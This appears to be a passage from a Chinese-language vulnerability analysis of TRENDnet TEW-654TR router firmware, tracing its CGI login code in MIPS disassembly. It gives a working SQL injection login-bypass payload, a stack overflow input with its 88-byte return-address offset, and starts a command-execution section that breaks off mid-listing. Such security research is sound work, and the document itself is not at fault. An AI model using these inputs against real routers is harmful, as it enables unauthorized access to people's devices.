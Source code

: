 下好断点，F9。

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6ca0j3tuwj20p00dnafd.jpg>)

可以看到第一个复制的是我们输入的用户名。第二个复制的是我们输入的密码。

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6ca13kfzmj210h0hsgtd.jpg>)

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6ca1fde4rj210g0il46d.jpg>)

运行完sprintf之后，sql语句直接串上了我们输入的用户名和密码。然后由下面的exec_sql执行。

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6ca20m0srj210k0jp46s.jpg>)

也就是说这里sql语句的参数是可控的，那么就会有sql注入的存在。

	./run_cgi.sh "request=login&user_name=admin&user_pwd='%20or%20'1'%3D'1"

从理论上来说，这里的注入应该只能返回level这个表的内容。但根据文章作者在实际操作的情况下比较幸运的进入了web应用系统。

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6ca2cm9xcj210a0jhdle.jpg>)

### **缓冲区溢出**

从前面分析的strcpy函数来看，两个strcpy函数全部都没有对长度进行判断，所以可以溢出覆盖返回地址，用第一个strcpy来测试。从最前面可以发现返回地址在$sp+0x78+var_8的位置而strcpy的第一个参数在$sp+0x78+var_60的位置，所以需要覆盖0x60-0x8=88的位置。

	sw      $ra, 0x78+var_8($sp)

	addiu   $a1, $s1, 0x299
	la      $t9, strcpy
	addiu   $a0, $sp, 0x78+var_60


可以看到，控制了返回地址可以指向任意地方。

	root@tearorca:~/f/测试/tew-654tr/FW_TEW-654TR_v1.0R(1.10.12)/_TEW-654TRA1_FW110B12.bin.extracted/squashfs-root#./run_cgi.sh "request=login&user_name=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB&user_pwd=password"

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6ca2r1j50j210j0jcqbg.jpg>)

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6ca34xkgfj210j0joq9j.jpg>)

### **任意命令执行**

看完了do_login函数，再回头看看main函数调用这个函数的位置，这里是一串字符串的比较。很显然do_login函数应该是匹配到了login这个字符串，根据前面分析的do_login函数这里应该是判断登录的位置。那应该就是从我们输入的request=后面得到的参数，来验证下猜想。

	.text:0040964C loc_40964C:                              # CODE XREF: main+474↑j
	.text:0040964C                                          # main+494↑j ...
	.text:0040964C                 la      $a1, loc_410000
	.text:00409650                 la      $t9, strcmp
	.text:00409654                 addiu   $a1, (aLoadSetting - 0x410000)  # "load_setting"
	.text:00409658                 jalr    $t9 ; strcmp
	.text:0040965C                 move    $a0, $s3
	.text:00409660                 lw      $gp, 0x2E6F0+var_2E6E0($sp)
	.text:00409664                 beqz    $v0, loc_409A3C
	.text:00409668                 addiu   $a1, $s1, (aLogin - 0x410000)  # "login"
	.text:0040966C                 la      $t9, strcmp
	.text:00409670                 addiu   $s0, $s3, 0x20
	.text:00409674                 jalr    $t9 ; strcmp
	.text:00409678                 move    $a0, $s0
	.text:0040967C                 lw      $gp, 0x2E6F0+var_2E6E0($sp)
	.text:00409680                 beqz    $v0, loc_409A6C
	.text:00409684                 move    $a0, $s3
	.text:00409688                 la      $a1, loc_410000
	.text:0040968C                 la      $t9, strcmp